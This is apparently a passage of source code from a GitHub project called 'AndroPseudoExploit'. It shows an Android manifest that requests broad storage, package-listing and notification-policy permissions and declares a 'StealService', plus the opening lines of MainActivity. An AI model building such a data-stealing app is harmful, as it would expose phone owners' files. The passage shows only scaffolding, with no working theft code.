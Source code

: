 ### Code
**`AndroidManifest.xml`**
```XML
<manifest xmlns:android="http://schemas.android.com/apk/res/android"  
    xmlns:tools="http://schemas.android.com/tools"  
    package="com.lautaro.andropseudoexploit">  
  
    <uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"  
        tools:ignore="QueryAllPackagesPermission"/>  
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />  
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />  
    <uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"  
        tools:ignore="ScopedStorage" />  
  
    <uses-permission android:name="android.permission.POST_NOTIFICATIONS" />  
    <uses-permission android:name="android.permission.ACCESS_NOTIFICATION_POLICY" />  
  
    <uses-permission android:name="android.permission.MODIFY_AUDIO_SETTINGS"/>  
  
    <application  
        android:allowBackup="true"  
        android:icon="@mipmap/ic_launcher"  
        android:label="AndroPseudoExploit"  
        android:requestLegacyExternalStorage="true"  
        android:supportsRtl="true"  
        android:theme="@style/Theme.AppCompat.DayNight.NoActionBar">  
        <activity  
            android:name=".MainActivity"  
            android:exported="true">  
            <intent-filter>  
                <action android:name="android.intent.action.MAIN" />  
                <category android:name="android.intent.category.LAUNCHER" />  
            </intent-filter>  
        </activity>  
        <service  
            android:name=".StealService"  
            android:exported="false"  
            android:foregroundServiceType="dataSync"/>  
    </application>  
</manifest>
```

**`MainActivity.java`**
```java
package com.lautaro.andropseudoexploit;  
  
import android.Manifest;  
import android.content.Intent;  
import android.content.pm.PackageManager;  
import android.os.Build;  
import android.os.Bundle;  
import android.os.Environment;  
import android.provider.Settings;  
import android.util.Log;  
import android.widget.Toast;  
import androidx.annotation.NonNull;  
import androidx.appcompat.app.AppCompatActivity;  
import androidx.core.app.ActivityCompat;  
import androidx.core.content.ContextCompat;  
import android.net.Uri;  
  
public class MainActivity extends AppCompatActivity {  
    private static final int STORAGE_PERMISSION_CODE = 100;  
    private static final int MANAGE_STORAGE_CODE = 101;  
```